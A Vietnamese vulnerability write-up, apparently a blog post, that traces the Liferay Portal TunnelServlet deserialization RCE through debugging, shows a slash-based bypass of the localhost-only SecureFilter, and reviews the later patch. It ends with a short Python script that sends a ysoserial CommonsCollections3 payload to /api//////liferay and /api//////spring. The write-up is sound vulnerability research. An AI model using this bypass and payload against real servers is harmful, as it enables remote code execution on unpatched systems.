


# Mục lục
- [Dựng môi trường](#dựng-môi-trường)
- [Set up debug](#set-up-debug)
- [Phân tích](#phân-tích)
  - [Trước hết hãy thực hiện với /api/liferay](#trước-hết-hãy-thực-hiện-với-apiliferay)
  - [Tiếp đến là /api/spring](#tiếp-đến-là-apispring)
- [Thực hiện khai thác với hạn chế](#thực-hiện-khai-thác-với-hạn-chế)
  - [Cách FilterChain hoạt động trong Servlet Container](#cách-filterchain-hoạt-động-trong-servlet-container)
  - [Exploit with bypass](#exploit-with-bypass)
- [Patch](#patch)

# Liferay TunnelServlet Deserialization Remote Code Execution (LPE-15538)


**Liferay Portal** là một **cổng thông tin doanh nghiệp (Enterprise Portal)** mã nguồn mở, được dùng để xây dựng các **website doanh nghiệp, intranet, extranet, và các ứng dụng web tích hợp**. Nó hỗ trợ **quản lý nội dung, người dùng, quyền truy cập, và tích hợp nhiều hệ thống khác nhau**.

- **Ngôn ngữ chính:** Java
    
- **Hệ quản trị cơ sở dữ liệu:** Hỗ trợ nhiều DB như MySQL, PostgreSQL, Oracle, SQL Server…
    
- **Mã nguồn mở:** Có bản Community Edition (CE) miễn phí và bản Enterprise Edition (EE) trả phí với nhiều tính năng nâng cao.

Liferay TunnelServlet dễ bị tấn công `Deserialization` và do cấu hình không chính xác, kẻ tấn công có thể truy cập (mặc định, nó chỉ giới hạn ở máy chủ cục bộ). Tùy thuộc vào phiên bản cụ thể của Liferay Portal, kẻ tấn công có thể khai thác lỗ hổng này bằng cách sử dụng dữ liệu tuần tự hóa được thiết kế đặc biệt để `RCE` trên hệ thống hoặc thực hiện tấn công từ chối dịch vụ.


Phiên bản dính lỗi 


## Dựng môi trường 

Cài đặt phiên bản lỗi.

Mình đang cài version 6.1.0 CE mặc dù bên trên chỉ đề cập đến bản EE nhưng sau khi tìm hiều mình đã thấy được ở CE cũng dính lỗi. Bạn có thể tải [tại đây](https://sourceforge.net/projects/lportal/files/Liferay%20Portal/6.1.0%20GA1/liferay-portal-tomcat-6.1.0-ce-ga1-20120106155615760.zip/download)

Hãy giải nén file zip sau đó khời động bằng cách chạy file `startup.bat` tại `liferay-portal-6.1.0-ce-ga1\tomcat-7.0.23\bin`

Thực hiện các bước seup xong sẽ hiển thị kết quả 

 

## Set up debug

Mở file `setenv.bat` tại `liferay-portal-6.1.0-ce-ga1\tomcat-7.0.23\bin` và thêm dòng sau vào cuối file để remote debug

```js
set CATALINA_OPTS=-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005
```

Mình sẽ dùng [Intellij](https://www.jetbrains.com/idea/download/?section=windows#section=windows) để debug chương trình. Bây giờ hãy mở `liferay-portal-6.1.0-ce-ga1\tomcat-7.0.23\webapps\ROOT` bằng `Intellij` 

Sau đó chọn `Add New Configuration` -> `Remote JV Debug`

 

Thiết lập các thông số bên dưới 

 

Bước tiếp theo hãy gom các file có đuôi `.jar` trong Folder vào một file "Liferay_libs" bằng câu lệnh

```js
#Tạo Folder nếu chưa có 
New-Item -ItemType Directory -Force -Path .\liferay_libs

#Thực hiện copy file Chạy trong PowerShell
Get-ChildItem -Recurse -Filter *.jar |
  ForEach-Object { Copy-Item $_.FullName -Destination .\liferay_libs -Force -Verbose }
```


Tiếp đến hãy add Folder này vào Intellij để có thể debug, Chọn `File -> Project Structure -> Libraries -> + -> Java` và chọn folder `liferay_libs`
 
 

Và kết quả là đây.

 


## Phân tích 

Theo như mô tả lỗi [Tại đây](https://www.tenable.com/security/research/tra-2017-01) ta biết được nguyên nhân nằm ở `TunnelServlet`( `/api/liferay`) và `Spring-Remote`( `/api/spring`) bị giới hạn ở localhost

Bây giờ chúng ta hãy tìm đến với Class `TunnelServlet` bằng cách gõ ctrl +N trên intellij và nhập `TunnelServlet`. Và thấy nó nằm trong file `portal-impl.jar`

 

Vào bên trong đó và xem quá trình sử lí ra sao 

 

Hãy chú ý đến `ois = new ObjectInputStream(request.getInputStream());`

- Servlet nhận **HTTP POST request**.
    
- Lấy `InputStream` từ request và bọc nó trong `ObjectInputStream`.
    
- Điều này có nghĩa: **server mong chờ client gửi dữ liệu Java đã serialize**.

Tiếp đến nó sẽ thực hiện `deserialize` tại `ObjectValuePair<HttpPrincipal, Object> ovp = (ObjectValuePair)ois.readObject();`

Tìm đến endpoint có liên quan đến servlet này trong `web.xml` nó nằm ở `liferay-portal-6.1.0-ce-ga1\tomcat-7.0.23\webapps\ROOT\WEB-INF`

### Trước hết hãy thực hiện với /api/liferay

- Đây là endpoint **tunnel servlet** trong Liferay.
    
- Được xử lý bởi class **`com.liferay.portal.spring.servlet.TunnelServlet`**.
    
- Nó cho phép **Remote Procedure Call (RPC)**: client có thể gửi request chứa thông tin method/service → server deserialize request → gọi **Liferay service bean** → serialize trả kết quả lại.
    
- Chủ yếu dùng cho:
    
    - Liferay JSON web services
        
    - SOAP/XML-RPC
        
    - Java tunneling


 

 

Tiến hành đặt Breakpoint tại 2 dòng vừa phân tích ở trên 

 

Thực hiện gửi request

 

Có thể thấy nó đã hoạt động

 

_Vậy cơ bản là ta đã biết được endpoint dẫn đến lỗi, việc tiếp theo sẽ là cần tìm gadget_

Hãy tiếp tục mở vào External Libraries, mục này chứa các thư viện của project

 

Tại đây chúng ta thấy có chứa common-collections

 

Tiến Hành chạy scrip với CommonCollections3

 

### Tiếp đến là /api/spring

- Đây là endpoint được cấu hình bởi **Spring DispatcherServlet** trong Liferay.
    
- Được định nghĩa trong file `remoting-servlet.xml` và `remoting-servlet-ext.xml`.
    
- Nó expose các **Spring beans** ra ngoài dưới dạng dịch vụ từ xa (remoting) thông qua:
    
    - `HttpInvokerServiceExporter` (Spring HTTP Invoker)
        
    - `HessianServiceExporter`
        
    - `BurlapServiceExporter`
        
- Cách hoạt động:
    
    1. Request đến `/api/spring/...`
        
    2. `DispatcherServlet` → `HandlerMapping` tìm bean
        
    3. Bean thường là 1 trong các exporter ở trên
        
    4. Exporter sẽ deserialize request → gọi method của bean thực sự → serialize trả về response

Tìm Servlet class ứng với endpoint này trong `web.xml` -> `com.liferay.portal.spring.servlet.RemotingServlet`

 

 

Vào bên trong của RemotingServlet sẽ thấy nó implement `org.springframework.web.servlet.DispatcherServlet`


 

Trong các ứng dụng của web spring thì `DispatcherServlet` có vai trò là một Servlet đặc biệt do Spring Framework cung cấp. Nó đóng vai trò là **Front Controller**. Mọi request HTTP đi vào ứng dụng Sping đều được `DispacherServlet` tiếp nhận đầu tên và sau đó nó sẽ ủy thác cho các controller tương ứng với request đấy để xử lí.

Và để request đến được các controller tương ứng một cách chính xác thì cần một handler mapping. 

Tiếp tục với `com.liferay.portal.spring.servlet.RemotingServlet`có hàm `getContextConfigLocation()`

 

Vào bên trong `remoting-servlet.xml` mình thấy được nó đang handler mapping bằng `HttpRequestHandler`

 

Danh sách các class đã implement interface trong `org.springframework.web.HttpRequestHandler`

 

Hãy tập chung vào `org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter` và hàm `handleRequest()` của class `readRemoteInvocation`

 

Bên dưới lại gọi đến hàm `doReadRemoteInvocation()` 

 

Ta có `org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter` kế thừa `org.springframework.remoting.rmi.RemoteInvocationSerializingExporter` nên thực chất là đang gọi method kia ở parent class

 

Và đã tìm được vị trí lỗi

Tìm kiếm trong `remoting-servlet.xml` ta thấy có rất nhiều endpoint sử dụng handler. Hãy chọn một cái để khai thác.

 

Và đây là kết quả 

 


# Thực hiện khai thác với hạn chế

Bên trên chúng ta đang khai thác với luồng truy cập từ **Localhost** và bây giờ sẽ setup và khai thác giống thực tế với luống truy cập từ bên ngoài.

### Đến với /api/liferay

Hãy theo dõi với luồng truy cập không phải từ **Localhost** ta thấy xuất hiện lỗi **403** là do người dùng không có quyền hoặc không được phép truy cập.

 

## Cách FilterChain hoạt động trong Servlet Container


- **FilterChain** trong Servlet container chính là **danh sách (chain) các bộ lọc (filter)** được gắn với một resource (ví dụ: một Servlet hoặc JSP).
    
- Khi một request đi đến resource đó, container sẽ lần lượt **đẩy request qua từng filter trong chain**.
    
    - Ở mỗi filter, có thể làm **pre-processing** (trước khi gọi `chain.doFilter()`),
        
    - Sau khi gọi `chain.doFilter()`, khi response quay ngược ra, filter sẽ có cơ hội làm **post-processing**.

 

Khi debug `TunnelServlet` ta thấy nó có gọi đến các filter 

 

Dựa vào đây hãy tìm đến `org.apache.catalina.core.ApplicationFilterChain#internalDoFilter()` và đặt breakpoint 

 

- `filters` là mảng chứa các **ApplicationFilterConfig**.
    
- Mỗi `ApplicationFilterConfig` lưu thông tin + giữ tham chiếu đến `Filter`.
    
- `filterConfig.getFilter()` chính là cách container lấy ra `Filter` thật để gọi `doFilter()`.

 

Hãy ngược trở lại xem chúng ta có tìm thấy gì không

 

Ở  `org.apache.catalina.core.StandardWrapperValve#invoke()` 
- Nhiệm vụ chính của `invoke()`:
    
    - Set một số attribute (ví dụ: `request`/`response`, `wrapper`, `servlet`, `context`) vào trong `request`.
        
    - Khởi tạo **`filterChain`** bằng cách gọi **`ApplicationFilterFactory.createFilterChain()`**.
        
    - Sau đó gọi `filterChain.doFilter(request, response)` để “chạy” toàn bộ filter + servlet.
        
Đây là lý do tại sao trong khung Variables bạn thấy `filterChain = ApplicationFilterChain@22996`.

- Khi `filterChain.doFilter()` được gọi, nó sẽ vào **`ApplicationFilterChain#doFilter()`**.
    
- Method này không trực tiếp xử lý mà sẽ gọi tiếp vào **`internalDoFilter()`** ở trên để điều phối.

 

Nhìn qua method `org.apache.catalina.core.StandardWrapperValve#invoke()`

 

- `filterChain.setServlet(servlet)`: gắn servlet đích (ví dụ `TunnelServlet`) vào filterChain, để sau khi chạy hết filter thì chain sẽ gọi servlet này xử lý request.
    
- `filterChain.setSupport(((StandardWrapper)wrapper).getInstanceSupport())`: thiết lập đối tượng hỗ trợ việc quản lý lifecycle/instance của servlet.
    
- `StandardContext context = (StandardContext)wrapper.getParent()`: từ `wrapper` (đại diện cho servlet) lấy ra `StandardContext` (ứng dụng web chứa servlet).
    
- `FilterMap[] filterMaps = context.findFilterMaps()`: lấy danh sách ánh xạ filter (filterName, urlPattern, dispatcher type) của toàn ứng dụng để chuẩn bị build filterChain.

Tiếp tục:

- Duyệt qua tất cả `FilterMap` trong context.
    
- Với mỗi `FilterMap`:
    
    - Kiểm tra dispatcher và URL pattern có khớp với request không.
        
    - Nếu khớp → tìm ra `FilterConfig` tương ứng.
        
    - Nếu có filter thực tế:
        
        - Nếu là request Comet → chỉ thêm filter nếu nó là `CometFilter`.
            
        - Ngược lại (bình thường) → thêm filter vào `ApplicationFilterChain`.

Cuối cùng, add filterConfig này vào filterChain `filterChain.addFilter(filterConfig)`

 

`org.apache.catalina.core.ApplicationFilterChain#addFilter()` là nơi mà `filterConfig` sẽ được thêm vào mảng `filters`.

 


Quay lại với `org.apache.catalina.core.ApplicationFilterChain#internalDoFilter()` filter được sử dụng là `InvokerFilter`

 

Và chung ta cũng có thể thấy được `InvokerFilter` xuất hiện trong file `web.xml`

- `url-pattern="/*"` → nghĩa là filter này sẽ áp dụng cho tất cả các request.

- Với mọi request có dispatcher type = `REQUEST` đều được sử lí bởi nó

 

 

Tiếp theo gọi đến `com.liferay.portal.kernel.servlet.filters.invoker#InvokerFilter()` 

 

Vào bên trong của `com.liferay.portal.kernel.servlet.filters.invoker.InvokerFilter` tại `getInvokerFilter()` Ta thấy được uri là(/api/liferay)

 

Đi sâu vào bên trong hàm `getInvokerFilter()` bằng F7 (Step In) ta thấy được `uri` được sử dụng để tính `key` và `key` này lại được dùng để lấy ra `invokerFilterChain` object

 

- `InvokerFilter._filterChains` chỉ là một `ConcurrentLRUCache`.
    
- Mà `ConcurrentLRUCache` thì **chỉ bọc quanh một `HashMap` tên `_cache`** để quản lý dữ liệu + hit count.
    
- Do đó, khi bạn gọi `_filterChains.get(someKey)`, thì bản chất **chỉ là lấy ra một entry từ `_cache` (HashMap)** rồi bóc value ra.

 

 

`getInvokerFilterChain()` sẽ **kiểm tra cache `_filterChains`** bằng key = `uri.hashCode()`.

- Nếu cache chưa khởi tạo → tạo mới luôn.
    
- Nếu cache đã có → lấy từ `_cache.get(key)`.
    
- Nếu chưa tồn tại → tạo mới tại dòng 127, lưu vào cache rồi dùng.
    
- Cuối cùng luôn **clone** trước khi trả về để mỗi request có filter chain riêng.

 

Bây giờ chúng ta hãy đặt breakpoint tại dòng 127 và gửi request với Bypass (/api//////liferay) và xem luồng xử lí như nào.

 

Nó sẽ trông thế này

 

Bây giờ hãy F7 để đi vào chi tiết hàm `createInvokerFilterChain()`, duyệt qua các phần tử trong `_filterMappings` tiếp đó gọi đến `FilterMapping.isMatch()` với  tham số là `uri` (`/api/////liferay`)

 

Method này thực hiện lấy ra các urlPattern của FilterMaping object hiện tại và so khớp với `uri`

 

Vẫn trong class `InvokerFilterHelper` đặt breakpoint như hình

Method này có nhiệm vụ **xây dựng một filter chain phù hợp cho request hiện tại** bằng cách duyệt qua tất cả filterMappings, chọn ra filter nào match với `uri`, rồi add chúng vào chain để xử lý request.

 

- Trong `InvokerFilterHelper#createInvokerFilterChain(...)`, vòng lặp sẽ duyệt qua toàn bộ `filterMappings`

- Mỗi `FilterMapping` có một danh sách `urlPatterns`.

- Việc thêm **conditional breakpoint** với điều kiện
    
```js
filterMapping._urlPatterns.get(0).contains("/api/liferay")
```    
  
  để chỉ dừng lại khi gặp một filterMapping có urlPattern liên quan đến `/api/liferay`.
    
- Khi breakpoint được hit, bạn sẽ biết chính xác **filter nào (ví dụ: SecureFilter, AuthVerifierFilter, v.v.)** được apply cho endpoint `/api/liferay` mà bạn đang debug.

Và ta thấy  filter tương ứng là `SecureFilter`

Tiếp đến vì giá trị trả về của `isMatchURLPattern` là false nên filter này sẽ không được add vào `invokerFilterChain`

 

SecureFilter lấy ip addr từ request object 

Và bây giờ mình sẽ thử truy cập mà không bypass. Ở đây IP mình dùng là `192.168.72.101` và nó không nằm trong `_hostsAllowed` (chỉ chứa `SERVER_IP` và `127.0.0.1`) → Access denied.

 

Và thông báo lỗi đã nổi lên.

 

Bây giờ hãy thử bypass với **/api/////liferay** Không thấy gọi đến SecureFilter

 

 

Và truy cập với **/api/liferay** có gọi SecureFilter

 

 

Và luồng xử lí này này là cho cả **/api/spring** bypass bằng **/api//////spring**

## Exploit with bypass

```python
import requests  
import os  
  
URL = "http://192.168.110.108:8080"  
  
os.system("java -jar C:\\Tools\\ysoserial-master\\ysoserial.jar CommonsCollections3 calc.exe > payload.bin")  
r = requests.post(URL + "/api//////liferay", data = open("payload.bin","rb") )  
r = requests.post(URL + "/api//////spring/com_liferay_portal_service_spring_AccountService-http", data = open("payload.bin","rb") )
```

 


## Patch

Bây giờ hãy xem Version [7.0.3 GA4](https://sourceforge.net/projects/lportal/files/Liferay%20Portal/7.0.3%20GA4/liferay-ce-portal-tomcat-7.0-ga4-20170613175008905.zip/download) đã fix lỗi này thế nào.

Có thể thấy ở class `InvokerFilter` tại method `getURI` đã có thêm code gọi đến  `HttpUtil.normalizePath()` mà không trả về trực tiếp `uri` nữa.
 
 

Và khi đó không thể bypass bằng `/api/////liferay` được nữa.

 
 
Thêm một sự khác biệt nữa ở class `TunnelServlet` và tại hàm `doPost()`

 

Phải "signed in" mới có thể reach được endpoint này hay nói cách khác là cần authenticated request.
Không dùng trực tiếp `ObjectInputStream` nữa mà dùng subclass `ProtectedClassLoaderObjectInputStream`để kiểm soát việc load class trong quá trình deserialization, nhằm giảm nguy cơ bị khai thác.
